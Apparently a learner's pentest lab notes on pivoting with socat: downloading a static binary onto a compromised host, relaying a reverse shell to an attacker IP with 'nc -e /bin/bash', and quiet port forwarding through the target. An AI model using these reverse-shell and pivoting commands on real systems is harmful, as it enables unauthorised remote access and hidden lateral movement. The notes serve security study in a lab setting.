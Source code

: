
Not installed on the target machine, which means we have to install static binary for it.
we can also use encrypted version of Socat but it's not taught in this section.

What is Port Forwarding ?
![[Pasted image 20231223210031.png | 400]]
IP address is similar to phone number
Port no is similar to extension
So the IP address purpose is determined by the port number.

![[Pasted image 20231217173651.png]]
Socat ss a way to join two things together -- kind of like the Portal Gun in the Portal games, it creates a link between two different locations.

I have download the Socat file for Linux and fire up a web server here.
```
python3 -m http.server 8080
```

```
curl 10.200.105.200/socat -o /tmp/socat && chmod +x /tmp/socat
```
![[Pasted image 20231217175211.png]]

```
curl 10.50.106.240/socat-Sardarji -o socat-sardarji
```

https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-socat/#port-forwarding-(from-remote-machine)

<h2>Reverse Shell Relay </h2>
```
 ./socat-sardarji  tcp-l:8000 tcp:10.50.106.240:4444 &
socat linux binary  machine port       attacker IP and port
```

- `tcp-l:8000` is used to create the first half of the connection -- an IPv4 listener on tcp port 8000 of the target machine.
- `tcp:ATTACKING_IP:443` connects back to our local IP on port 443. The ATTACKING_IP obviously needs to be filled in correctly for this to work.
- `&` backgrounds the listener, turning it into a job so that we can still use the shell to execute other commands.

```
./nc-sardarji 127.0.0.1 8000 -e/bin/bash
```
![[Pasted image 20231217212325.png]]
![[Pasted image 20231217212347.png]]

Another method is 
<h2>Port Forwarding</h2>

```
./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```
but in this method a port will be opened on the target machine which any one can spot in the network.
![[Pasted image 20231223211211.png]]

Port Forwarding Quiet
Attacker Machine
```
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```
![[Pasted image 20231223144949.png]]

Victim/Compromised Machine 
```
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```


SSH port forwarding (i.e. encrypted )
https://phoenixnap.com/kb/ssh-port-forwarding

This is remiaining :
https://tryhackme.com/room/introtoshells

Colleague | Bhargav Hede
[https://theyhack.me/Proxychains-Double-Pivoting/](https://theyhack.me/Proxychains-Double-Pivoting/)  
  
OSINT tool
spiderfoot